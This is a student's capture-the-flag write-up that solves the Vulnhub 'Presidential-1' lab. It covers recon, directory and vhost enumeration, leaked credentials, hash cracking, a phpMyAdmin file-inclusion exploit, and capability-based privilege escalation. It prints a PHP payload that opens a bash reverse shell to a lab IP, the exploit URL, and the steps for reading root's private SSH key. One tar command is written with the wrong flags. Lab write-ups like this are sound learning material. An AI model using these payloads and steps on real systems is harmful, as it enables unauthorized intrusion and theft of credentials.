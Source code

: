 # Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report presents the steps taken to solve the Vulnhub CTF (Capture the Flag) challange called Presidential-1. 

The attack was carried out following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

In the presented scenario the US state is developing the registration website for the presidential elections and wants to test the security of the server before the website and registration system are launched. One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system and falsifying the votes.

The goal of the challenge is to gain root access to the server.

## Tools

VirtualBox is the tool needed for this challenge to run the following two virtual machines:
* the Presidential VM available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
The two virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the process of discovering live hosts on a network. Executing it will first allow us to find out if the presidential machine is connected to the network and if so what its IP address is. 

Once the IP address of the machine has been determined, we proceed by trying to identify the services and open ports and the software versions on it. The `nmap` command allows us to do this.

![Steps of recognition](images/reconnaissance.png)  

The scan shows that the machine is running a web service on port 80 with http protocol and a remote shell on port 2082 with ssh protocol.

## Enumeration

By visiting the main page of the web service on port 80, you will find an email address at the bottom (contact@votenow.local). This way we get a domain name: votenow.local.
It's possible to associate the domain name with the IP address by adding a line to the /etc/hosts file.

In this enumeration phase, the use of Gobuster, a tool for scanning directories and files on web servers, is essential. It is used to locate hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but may still be accessible.
The gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist such as potential directory, file, subdomain, etc., until it finds valid resources or runs out of options.

![Steps of enumeration](images/enumeration.png)  

A config.php.bak file was detected. Usually these files contain a backup copy of the original config.php file. It in turn contains configuration information that may be important.
In fact, the file contains the user's credentials which could prove useful later.

## Exploiting

Using Gobuster, this time with the vhost option, subdomains can be found. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt) a single subdomain was found: datasafe.votenow.local.
On the web page that is obtained by connecting to the subdomain, there is an access panel to "phpMyAdmin". By entering the credentials obtained previously it is possible to log in and by navigating the page you can access a SQL database containing the hash of the password of an admin user.

The hash alone cannot be used. John the Ripper is a tool to use to crack the password. With the famous rockyou dictionary you can force the password corresponding to the hash, which turns out to be Stella.

Browsing the page another thing you can easily notice is that the version of phpMyAdmin is old. Searchsploit is a tool that can be used to search for known exploits and vulnerabilities in different versions of software and operating systems.
It turns out there are three vulnerabilities, one of which has command execution as impact. Searchsploit can give us more information about this vulnerability and how it can be exploited.
To exploit this vulnerability it is necessary to:
1) be authenticated
2) get the phpMyAdmin cookie
3) run a SQL query
4) edit the URL accurately.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

On the web page we are allowed to execute SQL queries.

The normal functioning of the web application does not allow the interpretation and execution of code inserted in the backticks. However, by carefully structuring the URL and inserting a php script between backticks into a SQL query, it is possible to obtain the execution of the script.
The URL must have the following format:
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/ php/session/sess_{cookieValue}
where {cookieValue} is the cookie value of a current session.

By listening to a netcat listener on port 443 and then injecting a SQL query like this:
select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'
and by structuring the URL in the way illustrated, you obtain a reverse shell on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln.png)

At this point you can authenticate with the admin user credentials extracted previously.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is to list the capabilities associated with the available executable files with the getcap command. this way we see that we have "+EP" in the tarS binary. This binary allows us to compress any file on the system without being root. Therefore, once compressed, we will only have to decompress it to be able to read the contents of the file.
There is an id_rsa file in the /root/.ssh/ directory. This file usually contains an RSA private key used for SSH authentication. This private key is associated with a public/private key pair and is used to authenticate the user on remote servers via SSH.
By having '+ep' we can compress the “id_rsa“ file, decompress it and gain visibility to the content.

The tarS -xvf id_rsa.tar /root/.ssh/id_rsa command creates a tar archive called id_rsa.tar containing the id_rsa file present in the /root/.ssh/ directory.

The tar -xvf id_rsa.tar command, however, extracts the files from the id_rsa.tar archive.

After executing these two commands, the id_rsa file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

Now having the RSA private key, we can remotely connect to the shell on the presidential machine via the ssh protocol.

![Root access](ssh_&_final_flag)
